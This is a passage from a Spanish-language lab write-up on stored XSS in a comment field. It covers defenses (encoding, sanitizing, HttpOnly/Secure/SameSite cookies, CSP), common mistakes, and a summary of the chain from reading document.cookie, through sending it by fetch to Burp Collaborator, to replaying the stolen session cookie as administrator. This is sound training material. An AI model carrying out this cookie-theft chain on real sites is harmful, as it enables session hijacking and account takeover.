En backend, hay que aplicar output encoding según el contexto.

Para HTML body:

```text
<  → &lt;
>  → &gt;
&  → &amp;
"  → &quot;
'  → &#x27;
```

---

### 38.2. Sanitizar si se permite HTML

Si la aplicación quiere permitir HTML en comentarios, debe usar un sanitizador robusto con allowlist estricta.

Ejemplo de política:

```text
Permitido: <b>, <i>, <p>, <br>
Bloqueado: <script>, event handlers, javascript:, data:, iframe, svg peligroso
```

No basta con eliminar la palabra `<script>`.

XSS tiene muchos vectores.

---

### 38.3. Marcar cookies de sesión como `HttpOnly`

La cookie de sesión debería incluir:

```http
HttpOnly
```

Ejemplo:

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax
```

Esto no elimina el XSS, pero impide este robo directo con `document.cookie`.

---

### 38.4. Usar `Secure`

La flag `Secure` hace que la cookie solo se envíe por HTTPS.

```http
Set-Cookie: session=abc123; Secure
```

Esto evita exposición por HTTP plano.

---

### 38.5. Usar `SameSite`

`SameSite` ayuda contra CSRF y algunos flujos cross-site.

Ejemplo:

```http
Set-Cookie: session=abc123; SameSite=Lax
```

Pero no evita que un XSS lea `document.cookie` si la cookie no es `HttpOnly`.

---

### 38.6. CSP restrictiva

Una CSP puede reducir impacto:

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; connect-src 'self'; object-src 'none'; base-uri 'none'
```

En este lab, `connect-src 'self'` dificultaría enviar cookies a Collaborator mediante `fetch()`.

Pero la defensa principal sigue siendo no permitir XSS.

---

### 38.7. Separar datos de código

Nunca se debe insertar input de usuario dentro de JavaScript ejecutable.

Malo:

```html
<script>
var comment = 'USER_INPUT';
</script>
```

Mejor:

```html
<div id="comment"></div>
<script>
document.getElementById('comment').textContent = commentFromSafeJson;
</script>
```

Y si hay que pasar datos a JavaScript, serializarlos correctamente como JSON.

---

## 39. Errores comunes al resolver este lab

### 39.1. Robar tu propia cookie

Si pruebas el payload y solo capturas tu cookie, no sirve.

Hay que esperar a que la víctima simulada visite el comentario.

La pista es el User-Agent:

```text
Mozilla/5.0 (Victim) ...
```

---

### 39.2. Usar un dominio externo no permitido

El firewall del lab puede bloquear dominios externos arbitrarios.

Hay que usar Burp Collaborator.

---

### 39.3. Olvidar `no-cors`

En muchos casos la petición puede salir igualmente, pero `no-cors` evita problemas derivados de intentar tratar la petición como CORS normal.

Como no necesitamos leer la respuesta, `no-cors` encaja perfectamente.

---

### 39.4. Añadir dos cabeceras Cookie en Repeater

Si añadimos una segunda cabecera `Cookie` sin borrar la primera, podemos generar una petición ambigua.

Mejor:

```http
Cookie: session=COOKIE_ROBADA
```

Una sola cabecera.

---

### 39.5. Confundir `secret` con `session`

La respuesta de Collaborator puede contener:

```text
secret=...
session=...
```

La cookie que autentica la sesión es `session`.

---

## 40. Anatomía de la cadena de impacto

La cadena completa queda así:

```text
Stored XSS
  ↓
Ejecución JavaScript en navegador de víctima
  ↓
Lectura de document.cookie
  ↓
Exfiltración con fetch hacia Collaborator
  ↓
Extracción de session cookie
  ↓
Uso de cookie robada en /my-account
  ↓
Acceso como administrator
```

Este es el motivo por el que XSS sigue siendo una vulnerabilidad crítica cuando afecta a páginas autenticadas.

---

## 41. Conclusión

Este laboratorio muestra el impacto real de un stored XSS.

No se queda en una prueba visual con `alert(1)`. Se usa el XSS para robar una cookie de sesión y suplantar a la víctima.

La parte importante no es solo el payload, sino entender la cadena:

```text
El comentario se guarda.
La víctima lo visualiza.
El navegador de la víctima ejecuta nuestro JavaScript.
Ese JavaScript puede leer document.cookie.
Ese valor se envía a Burp Collaborator.
La cookie session se reutiliza en Repeater.
El servidor nos reconoce como administrator.
```

La lección principal es clara:

> **Un XSS en una zona visitada por usuarios autenticados puede convertirse en robo de sesión y toma de cuenta.**

Y la defensa no puede depender de una sola medida. Hay que combinar:

```text
- Output encoding correcto.
- Sanitización robusta si se permite HTML.
- Cookies HttpOnly y Secure.
- CSP restrictiva.
- Validación de entradas.
- Separación estricta entre datos y código.
```

---

## 42. Resumen final rápido

```text
Vulnerabilidad: Stored XSS en comentarios.
Payload: script con fetch hacia Burp Collaborator.
Dato robado: document.cookie.
Cookie útil: session=...
Explotación final: reemplazar cookie propia por cookie robada.
Resultado: acceso como administrator.
Estado: Lab solved.
```
